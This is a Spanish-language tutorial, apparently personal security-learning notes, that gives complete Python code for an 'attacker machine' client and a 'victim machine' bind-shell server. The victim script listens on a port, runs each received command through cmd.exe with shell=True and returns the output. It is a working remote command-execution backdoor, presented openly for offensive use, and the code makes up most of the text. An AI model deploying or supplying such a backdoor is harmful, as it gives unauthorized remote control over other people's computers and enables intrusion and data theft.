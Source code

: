 Necesitaremos un script de la máquina atacante, donde se va a pedir al usuario que envíe un comando para que se envíe a la máquina víctima; y después al mismo tiempo recibiremos ese output procedente de la máquina víctima de vuelta a nuestra máquina atacante.
## CÓDIGO MÁQUINA ATACANTE
```python
import socket

# Definimos la dirección y puerto del servidor (Siempre de la máquina víctima)
server_address = ('192.168.0.13', 5000)

while True:
    # Creamos el socket cliente, ya que restablecemos la conexión a cada comando que se ejecute
    client_socket = socket.socket()
    client_socket.connect(server_address)

    # Solicitamos al usuario que introduzca un comando
    comando_enviar = input("Introduce el comando que quieras enviar a la máquina víctima (o 'exit' para salir): ")

    # Si el usuario introduce "exit", cerramos la conexión y salimos del bucle
    if comando_enviar == 'exit':
        client_socket.close()
        break

    # Enviamos el comando a la máquina víctima:
    client_socket.send(comando_enviar.encode())

    # Esperamos a recibir la respuesta de la víctima y lo guardamos en la variable respuesta.
    respuesta = client_socket.recv(4096)

    # Imprimimos la respuesta;
    print(respuesta.decode()) 

    # Cerramos el socket, que se volverá a abrir al inicio del bucle:
    client_socket.close()
```
## CÓDIGO MÁQUINA VÍCTIMA
Este es el código que se ejecutará en la máquina víctima:
```python
import socket
import subprocess

# Definimos la dirección y puerto (Siempre de la máquina víctima)
server_address = ('192.168.0.13', 5000)


while True:
    # Creamos el socket (la conexión)
    server_socket = socket.socket()
    server_socket.bind(server_address)
    server_socket.listen(1)
    # Esperamos a recibir una conexión
    client_socket, client_address = server_socket.accept()

    # Recibimos el comando de la máquina atacante
    comando = client_socket.recv(4096).decode()

    # Si el cliente envía "exit", cerramos la conexión y salimos del bucle
    if comando == 'exit':
        client_socket.close()
        break

    # Ejecutamos el comando y obtenemos su salida en la variable result
    result = subprocess.run(f"cmd.exe /c {comando}", shell=True, capture_output=True, text=True)
    salida = result.stdout

    # Enviamos la salida a la máquina atacante
    client_socket.send(salida.encode())

    # Cerramos la conexión con el cliente
    client_socket.close()

    # Cerramos el socket servidor
    server_socket.close()
```
 ---------------------------------------------
 Ahora el funcionamiento será el siguiente, donde primero ejecutaremos el código desde la máquina víctima para que permanezca en escucha a espera del comando enviado por la máquina atacante:
 ![[Pasted image 20230308125116.png]]
 Y ahora si ejecutamos el código desde la máquina atacante, ya podremos insertar el comando que queramos y recibirlo de vuelta: ![[Pasted image 20230308125219.png]]